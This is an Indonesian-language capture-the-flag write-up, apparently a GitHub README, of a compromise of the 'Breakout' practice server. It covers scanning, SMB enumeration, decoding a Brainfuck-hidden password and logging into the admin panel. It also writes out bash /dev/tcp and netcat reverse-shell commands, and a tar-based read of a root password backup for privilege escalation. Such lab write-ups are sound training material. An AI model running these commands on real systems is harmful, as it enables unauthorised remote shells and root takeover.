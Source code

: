 # Laporan Serangan Server Breakout
Ini adalah hasil serangan yang telah dilakukan pada server Breakout untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : 
	- cara 1
		```
		ip a
		```
	- cara 2
		```
		ifconfig
		```

- scan jaringan
	- nmap 
		```
		nmap -sP <network_id>/<prefix>
		```
	- netdicover 
		```
		netdiscover -i <interface>
		```

- uji koneksi, kali linux dan server Breakout
	```
	ping <ip_server>
	```

## Scan Port Server dengan NMAP
- nmap : 
	```
	nmap -p- -A -T4 <ip_server>
	```

**Port** yang terbuka dari server adalah :
- http (80)
- samba (139)
- samba (445)
- http miniserv (10000)
- http miniserv (20000)

## Access HTTP MINISERV Port 10000 & 20000
- gunakan url browser
	- http (10000)
		```
		http://<ip_server>:10000
		```
	- http (20000)
		```
		http://<ip_server>:20000
		```

**Note :** jika dialihkan menggunakan **https** maka ikuti


## Access Samba 
- coba login dengan password blank
	```
	smbclient -L //<ip_server>
	```
- jika gagal, proses pencarian celah lainnya


## Access Username pada Samba (139) dan (445)
- enum
	```
	enum4linux -a <ip_server>
	```
- scroll kebawah temukan user dengan (local user)
- maka username : **cyber**
- buka port http (80)
- buka full source code web
- paling bawah terdapat pesan enkripsi
- decrypt:
	```
	https://www.dcode.fr/brainfuck-language
	```
- password : **.2uqPEfj3D< P'a-3**
- login pada port 20000
- klik menu shell (terminal)
- buka terminal listener : 
	```
	nc -lvnp 2020
	```
- reverse shells
	- bash 
		```
		bash -i >& /dev/tcp/<ip_kali>/2020 0>&1
		```
	- netcat
		```
		nc -e /bin/bash <ip_kali> 2020
		```
- mode terminal
	```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	```
	```
	export TERM=xterm
	```

## Local Privilege Escalation
- waktu proses pencarian, terdapat file : **.old_pass.bak**
- pada folder **/var/backups**
- access file
	```
	./tar -cf mypass.tar /var/backups/.old_pass.bak
	./tar -xf mypass.tar
	cat var/backups/.old_pass.bak
	su root

	```
- gunakan password yang sudah ditampilkan
- temukan flag
	```
	cat /root/rOOt.txt
	```
